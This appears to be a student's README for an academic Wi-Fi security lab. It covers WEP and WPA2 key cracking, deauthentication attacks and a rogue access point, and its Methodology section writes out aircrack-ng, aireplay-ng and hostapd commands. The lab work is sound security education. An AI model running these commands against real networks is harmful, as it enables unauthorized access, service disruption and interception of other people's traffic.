 # Wi-Fi Security Lab (CY 4760/6760)  
**Course:** Wireless and Mobile Network Security  
**Instructor:** Prof. Aanjhan Ranganathan  
**Semester:** Fall 2024  
**Author:** Pranav S.  

![Status](https://img.shields.io/badge/Status-Completed-green)  
![Tech](https://img.shields.io/badge/Tools-Aircrack--ng%20%7C%20Wireshark%20%7C%20Scapy-blue)  

## 📌 Overview  
This repository contains my submission for **Lab 4: Wi-Fi Security**, where I explored vulnerabilities in wireless networks, including:  
- Cracking WEP encryption  
- Cracking WPA2 encryption  
- Performing deauthentication attacks  
- Simulating rogue access points  

This project demonstrates **ethical hacking techniques** used in penetration testing for assessing and strengthening Wi-Fi security.  

---

## 📖 Table of Contents  
- [Key Topics Covered](#key-topics-covered)  
- [Files Included](#files-included)  
- [Tools & Technologies Used](#tools--technologies-used)  
- [Methodology](#methodology)  
- [Ethical Considerations](#ethical-considerations)  
- [Learning Outcomes](#learning-outcomes)  
- [Screenshots](#screenshots)  
- [Resume Description](#resume-description)  
- [Contact](#contact)  

---

## 🛠 Key Topics Covered  
- **Cracking WEP Encryption**: Used `aircrack-ng` to recover WEP keys by analyzing captured IVs.  
- **Breaking WPA2-PSK Encryption**: Captured WPA2 handshake and used dictionary attacks.  
- **Deauthentication Attacks**: Exploited CVE-2019-16275 to disconnect clients from a Wi-Fi network.  
- **Rogue Access Point Attack**: Set up a fake AP and captured victim traffic.  

---

## 📂 Files Included  
| File Name | Description |  
|-----------|------------|  
| `Group11_Lab4.pdf` | Detailed report with methodology and findings |  
| `Lab4_wifi_Fall2024.pdf` | Original lab instructions |  
| `scripts/deauth-students.py` | Python script for deauthentication attack |  
| `captures/wep_crack.pcap` | Packet capture file used for WEP cracking |  
| `captures/wpa_handshake.pcap` | Packet capture file containing WPA handshake |  
| `wordlists/passwords.txt` | Wordlist used for WPA cracking |  

---

## 🔧 Tools & Technologies Used  
- **Aircrack-ng Suite** (`Airmon-ng`, `Airodump-ng`, `Aircrack-ng`, `Aireplay-ng`)  
- **Wireshark** – Network packet analysis  
- **Scapy** – Packet manipulation & forging  
- **Python** – Scripting for automated attacks  
- **Linux CLI (Ubuntu VM)** – Running security tools  

---

## 🔍 Methodology  

### **1️⃣ Cracking WEP Encryption**  
- Enabled **monitor mode** using `airmon-ng`.  
- Captured packets using `airodump-ng`.  
- Used **IVs** to decrypt the key with `aircrack-ng`.  

```bash
# Start monitor mode
sudo airmon-ng start wlan0

# Capture packets
sudo airodump-ng -w wep_capture wlan0mon

# Crack WEP keykey
sudo aircrack-ng -b XX:XX:XX:XX:XX:XX wep_capture.pcap
```

### **2️⃣ Cracking WPA2 Encryption**  
- Captured **4-way handshake** using `airodump-ng`.  
- Used dictionary attack with `aircrack-ng`.  

```bash
# Capture handshake
sudo airodump-ng -c 6 --bssid XX:XX:XX:XX:XX:XX -w handshake wlan0mon

# Crack WPA2 password
sudo aircrack-ng -w passwords.txt -b XX:XX:XX:XX:XX:XX handshake.pcap
```

### 3️⃣ Deauthentication Attack
- Used aireplay-ng to send deauthentication frames, disconnecting clients.
- Exploited CVE-2019-16275 for forced disconnection.

```bash
sudo aireplay-ng --deauth 100 -a <AP_MAC> -c <Client_MAC> wlan0mon
```

### 4️⃣ Rogue Access Point Attack
- Created a fake AP using hostapd to capture victim traffic.
- Used Wireshark to analyze captured packets.

```bash
sudo hostapd hostapd.conf
```

---

## ⚖️ Ethical Considerations

⚠️ Disclaimer: This project was conducted in a controlled lab environment as part of an academic exercise in cybersecurity. Unauthorized Wi-Fi penetration testing is illegal without explicit permission. The purpose of this lab was to understand security weaknesses and develop skills for ethical hacking and cybersecurity defense."

Key ethical principles followed:
✔️ Responsible Disclosure – Understanding vulnerabilities to help secure networks.
✔️ No Unauthorized Testing – Experiments were performed in a controlled environment with instructor approval.
✔️ Security Awareness – The findings from this lab help reinforce best security practices for network protection.

🎯 Learning Outcomes
By completing this lab, I gained the following skills:

✔️ Hands-on experience with Wi-Fi security – Analyzed encryption flaws in WEP and WPA2.
✔️ Packet Sniffing & Analysis – Used Wireshark to capture and inspect wireless traffic.
✔️ Cracking Encryption Keys – Learned how dictionary attacks and IV collection work against WPA2 and WEP.
✔️ Ethical Hacking Techniques – Performed deauthentication attacks and rogue AP simulations.
✔️ Understanding Countermeasures – Explored network defense strategies, including WPA3, VPNs, and intrusion detection.

🖼️ Screenshots
📌 Cracking WPA2 Handshake

📌 Deauthentication Attack in Action

📄 Resume Description
"Conducted hands-on penetration testing of Wi-Fi networks, assessing vulnerabilities in WEP and WPA2 encryption. Executed packet sniffing, dictionary attacks, and deauthentication exploits using Aircrack-ng, Wireshark, and Scapy. Simulated rogue access points to analyze client behavior and proposed countermeasures to mitigate security risks. Documented findings in a structured report with technical analysis and recommendations."

📩 Contact
For any inquiries, feel free to reach out via:
📌 GitHub: yourusername
📌 LinkedIn: your-linkedin-url